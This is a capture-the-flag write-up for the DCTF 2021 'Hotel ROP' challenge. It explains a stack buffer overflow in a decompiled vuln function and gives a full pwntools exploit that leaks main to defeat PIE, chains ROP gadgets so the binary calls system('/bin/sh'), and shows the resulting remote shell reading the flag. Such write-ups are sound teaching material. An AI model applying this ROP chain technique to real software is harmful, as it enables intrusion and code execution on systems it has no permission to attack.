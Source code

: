 # DCTF 2021

## Hotel ROP

> 400
> 
> They say programmers' dream is California. And because they need somewhere to stay, we've built a hotel!
> 
> `nc dctf1-chall-hotel-rop.westeurope.azurecontainer.io 7480`
>
> [hotel\_rop](hotel_rop)

Tags: _pwn_ _x86-64_ _bof_ _rop_


## Summary

Intended solution for BOF/ROP challenge with batteries included (no need for _ret2libc_)--some assembly required (not [_that_](https://en.wikipedia.org/wiki/Shellcode) kind of assembly).




## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary--BOF.  PIE enabled, but useless since the location of `main` is leaked from the start--ROP.


### Decompile with Ghidra

```c
void vuln(void)
{
  char local_28 [28];
  int local_c;
  
  puts("You come here often?");
  fgets(local_28,0x100,stdin);
  if (local_c == 0) {
    puts("Oh! You are already a regular visitor!");
  }
  else {
    puts("I think you should come here more often.");
  }
  return;
}
```

`fgets` will _get_ `0x100` (256) bytes into a `28` byte buffer smashing the stack.

There are various ways to win here, but I went with the intended solution:

```c
void loss(int param_1,int param_2)
{
  if (param_2 + param_1 == 0xdeadc0de) {
    puts("Dis is da wae to be one of our finest guests!");
    if (param_1 == 0x1337c0de) {
      puts("Now you can replace our manager!");
      system((char *)&win_land);
      exit(0);
    }
  }
  return;
}
```

There's a `win` function here called `loss` that will execute `system` with the global `win_land`.  However, `win_land` is all null; the two functions `california` and `silicon_valley` fill that void:

```
void california(void)
{
  puts("Welcome to Hotel California");
  puts("You can sign out anytime you want, but you can never leave");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x62;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x69;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x6e;
  len = len + 1;
  return;
}

void silicon_valley(void)
{
  puts("You want to work for Google?");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x73;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x68;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0;
  len = len + 1;
  return;
}
```

Kinda all down hill from here.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./hotel_rop')

if args.REMOTE:
    p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

p.recvuntil('on main street ')
main = int(p.recvline().strip(),16)
log.info('main: ' + hex(main))
binary.address = main - binary.sym.main
log.info('binary.address: ' + hex(binary.address))
```

As stated above, we get the location of `main` for free, with this we can compute the base process address which is required for ROP.

```python
pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))
```

`loss` requires two parameters; we'll need `pop rdi` and `pop rsi` gadgets.  Since `pop rsi` is followed by `pop r15`, we'll have to provide a dummy value.

```python
payload  = b''
payload += 0x28 * b'A'
payload += p64(binary.sym.california)
payload += p64(binary.sym.silicon_valley)
payload += p64(pop_rdi)
payload += p64(0x1337c0de)
payload += p64(pop_rsi_r15)
payload += p64(0xdeadc0de - 0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.loss)

p.sendlineafter('?\n',payload)
p.interactive()
```

And here's the chain.  Start with the two helper functions to set `win_land`, then pop into `rdi` and `rsi` the values for `param1` and `param2` (with a zero for `r15`) then call `loss` FTW!


[_You can_ win for losing](https://www.urbandictionary.com/define.php?term=can%27t%20win%20for%20losing).


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/hotel_rop/hotel_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf1-chall-hotel-rop.westeurope.azurecontainer.io on port 7480: Done
[*] main: 0x5650b58f536d
[*] binary.address: 0x5650b58f4000
[*] Switching to interactive mode
I think you should come here more often.
Welcome to Hotel California
You can sign out anytime you want, but you can never leave
You want to work for Google?
Dis is da wae to be one of our finest guests!
Now you can replace our manager!
$ cat flag.txt
dctf{ch41n_0f_h0t3ls}
```
